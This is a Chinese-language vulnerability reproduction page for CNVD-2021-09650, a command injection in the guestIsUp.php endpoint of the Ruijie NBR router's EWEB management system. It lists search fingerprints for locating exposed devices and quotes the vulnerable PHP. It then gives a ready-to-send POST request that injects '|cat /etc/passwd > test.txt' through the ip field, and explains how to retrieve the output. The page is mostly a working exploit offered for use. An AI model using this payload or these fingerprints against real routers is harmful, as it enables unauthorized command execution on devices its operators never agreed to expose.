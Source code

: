 # 锐捷 NBR 路由器 guestIsUp.php 远程命令执行漏洞 CNVD-2021-09650

## 漏洞描述

锐捷NBR路由器 EWEB网管系统部分接口存在命令注入，导致远程命令执行获取权限

## 漏洞影响

<a-checkbox checked>锐捷NBR路由器 EWEB网管系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="锐捷网络-EWEB网管系统"</a-checkbox></br>

<a-checkbox checked>icon_hash="-692947551"</a-checkbox></br>

## 漏洞复现



![img](/assets/PeiQi-Wiki/img/ruijie-6.png)



出现漏洞的文件在 `/guest_auth/guestIsUp.php`



```php
<?php
    //查询用户是否上线了
    $userip = @$_POST['ip'];
    $usermac = @$_POST['mac'];
    
    if (!$userip || !$usermac) {
        exit;
    }
    /* 判断该用户是否已经放行 */
    $cmd = '/sbin/app_auth_hook.elf -f ' . $userip;
    $res = exec($cmd, $out, $status);
    /* 如果已经上线成功 */
    if (strstr($out[0], "status:1")) {
        echo 'true';
    }
?>
```



这里看到通过命令拼接的方式构造命令执行，



```shell
POST /guest_auth/guestIsUp.php
mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```



然后访问页面 `/guest_auth/test.txt` 就可以看到命令执行的结果



![img](/assets/PeiQi-Wiki/img/ruijie-5.png)



## 